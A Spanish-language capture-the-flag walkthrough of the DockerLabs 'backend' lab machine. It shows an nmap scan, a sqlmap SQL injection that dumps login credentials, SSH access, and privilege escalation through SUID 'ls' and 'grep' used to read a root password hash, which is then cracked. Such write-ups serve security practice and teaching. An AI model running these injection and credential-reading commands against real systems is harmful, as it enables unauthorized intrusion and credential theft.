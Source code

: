 Maquina backend de [DockerLabs](https://dockerlabs.es)

Autor: [4bytes](https://github.com/4bytess/)

Dificultad: Fácil

![dock](./img/dock.png)

# INTRUSION

Comenzamos haciendo un escaneo de nmap:

```css
nmap -p- 172.17.0.2 -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Thu Aug 29 19:18:27 2024 as: nmap -p- -n --open --min-rate 5000 -Pn -sSVC -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-08-29 19:18:27 -03 for 8s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 08:ba:95:95:10:20:1e:54:19:c3:33:a8:75:dd:f8:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMPJ46ajVOvTej11m5rYDjs9KAJUbzC1iUdAloBEabTXlpaBY6grCd3EAwDWE33L9E7lC5k9G+g2gNtsrAq79dw=
|   256 1e:22:63:40:c9:b9:c5:6f:c2:09:29:84:6f:e7:0b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIF6xGDDmewkLLpG4sexgnIhUkqp4QnkWeDoYn4PyDLS4
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.61 ((Debian))
|_http-title: test page
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.61 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 29 19:18:36 2024 -- 1 IP address (1 host up) scanned in 8.82 seconds
```

Como vemos está abierto el puerto 80 por el que esta siendo usado por apache y el puerto 22 usado por openSSH.

#### PUERTO 80:

![80](./img/80.png)

Como vemos parece ser una página bajo mantenimiento pero vemos un login, pero luego de probar credenciales basicas como `admin:admin` o `root:root` y no conseguir nada, pruebo en poner una comilla para ver si trata de SQLi, pero como no nos muestra ningún error sino una página distinta, podriamos confirmar o descartar la idea usando sqlmap. Para hacerlo solo ejecutamos esto:

```css
sqlmap -u "http://172.17.0.2/login.html" --forms --batch --dbs --dump
```

como vemos, nos devuelve esto:

```css
+----+---------------+----------+
| id | password      | username |
+----+---------------+----------+
| 1  | $paco$123     | paco     |
| 2  | P123pepe3456P | pepe     |
| 3  | jjuuaann123   | juan     |
+----+---------------+----------+
```

Por lo que si trata de una SQLi, luego de probarlos en la página y que ninguno nos sirva, podemos intentar probar si alguno es válido para el puerto 22 de ssh, por lo que simplemente probamos uno por uno ya que son 3, y vemos que el usuario pepe si tiene acceso

# ESCALADA DE PRIVILEGIOS

Ahora tendremos que escalar privilegios siendo el usuario pepe, si nos fijamos no existe sudo, por lo que podriamos buscar en el SUID de la siguiente manera:

```css
find / -perm -4000 2>/dev/null
```

```css
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/su
/usr/bin/umount
/usr/bin/ls
/usr/bin/grep
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
```

Como vemos, el binario `ls` y `grep` estan en el SUID, por lo que podriamos intentar leer la home de root usando ls de la siguiente manera:

```css
/usr/bin/ls /root
```

```css
/usr/bin/ls /root/   
pass.hash
```

viendo que hay un pass.hash podemos intentar leerlo con grep ejecutando esto:

```css
LFILE=/root/pass.hash
/usr/bin/grep '' $LFILE
```

```css
e43833c4c9d5ac444e16bb94715a75e4
```

como vemos, parece ser un hash md5, por lo que lo podemos meter en [crackstation](https://crackstation.net/):

![md5](./img/md5.png)

Como vemos, parece ser que el hash tiene la contraseña `spongebob34`, ahora escalamos a root ejecutando `su root` y metiendo la contraseña:

![root](./img/root.png)